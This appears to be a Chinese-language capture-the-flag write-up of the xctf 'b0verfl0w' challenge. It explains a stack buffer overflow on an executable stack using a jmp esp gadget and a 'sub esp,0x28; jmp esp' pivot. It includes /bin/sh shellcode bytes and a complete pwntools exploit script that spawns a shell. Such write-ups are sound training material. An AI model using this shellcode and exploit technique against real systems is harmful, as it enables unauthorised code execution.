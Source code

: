 ```yaml
---
title: xctf b0verfl0w
description: write up
date: 2021-09-13 15:44:33
categories:
 - PWN
---
```




# x_ctf_b0verfl0w

栈可执行

![image-20210913154533194](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20210913154533194.png)

fgets可以输入50个字节，padding就占了32了，还有ebp，ret就剩10字节了，无法写入shellcode，那么我们可以考虑在栈的初始位置布置一段shellcode，然后让程序跳转到栈的起始处执行shellcode

![image-20210913154545798](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20210913154545798.png)

可以看到0x08048504为jmp esp的gadgets

![image-20210913155034057](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20210913155034057.png)

那么payload就可以写成

```python
jmp_esp = 0x08048504
sh = "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = sh + 'a' * (0x24-len(sh)) + p32(jmp_esp) + sub_esp_jmp
```

执行jmp esp，同时esp+4，eip指向esp，也就是指向sub esp,0x28;jmp esp，这样就可以劫持esp，跳转执行shellcode

学习点：jmp esp --> esp+4  eip=esp

```python
from pwn import *

p = process('./b0verfl0w')

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

jmp_esp = 0x08048504
sh = "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = sh + 'a' * (0x24-len(sh)) + p32(jmp_esp) + sub_esp_jmp
sa('your name?\n',payload)
shell()
```

